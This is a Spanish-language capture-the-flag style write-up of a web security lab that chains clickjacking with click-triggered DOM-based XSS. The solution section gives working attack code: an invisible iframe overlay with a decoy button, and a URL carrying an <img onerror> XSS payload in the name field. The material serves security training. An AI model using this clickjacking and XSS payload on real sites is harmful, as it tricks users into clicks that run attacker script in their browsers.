 En este laboratorio se combina una vulnerabilidad de clickjacking con una XSS basada en DOM que se activa mediante un clic. El objetivo es engañar a la víctima para que pulse un botón en una página aparentemente inocente, lo que desencadena la ejecución de la función print() desde un payload XSS.

Para lograrlo, se incrusta la URL del formulario de feedback en un iframe, manipulando los parámetros de la URL para incluir un payload malicioso en el campo name. Este payload se aprovecha de una mala gestión de datos en el DOM, concretamente en la parte de la página que muestra los resultados del envío (#feedbackResult).

Mediante el uso de estilos CSS, se superpone un botón señuelo encima del botón real de “Submit feedback”. Gracias a la opacidad casi nula del iframe, la víctima no ve el contenido real del sitio y cree estar interactuando con la interfaz legítima.

Cuando la víctima hace clic en el botón señuelo, en realidad está interactuando con el botón del iframe, lo que activa el XSS basado en DOM y ejecuta print(), demostrando el ataque. La clave está en la precisión del alineamiento y en cómo se abusa del comportamiento inseguro del sitio en el manejo de parámetros reflejados en el DOM.

Solucion
Este es un laboratorio que es vulnerable a xss en la parte de la seccion de comentarios
![Pasted_image_20250724234055.png](/Imagenes/Pasted_image_20250724234055.png)
![Pasted_image_20250724234107.png](/Imagenes/Pasted_image_20250724234107.png)
una vez localizado la vulnerabilidad pues vamos a disfrazar el boton en esta ocacion pero poniendo los campos que tenemos en el formulario
<style>
	iframe {
        position:relative;
        width: 500px;
        height: 1000px;
        opacity: 0.0001;
    }
    div {
        position:absolute;
        top: 800px;
        left: 100px;
    }
</style>
<div>Click me</div>
<iframe
src="https://0a08007d0492094f80d66c3e00dd006d.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>

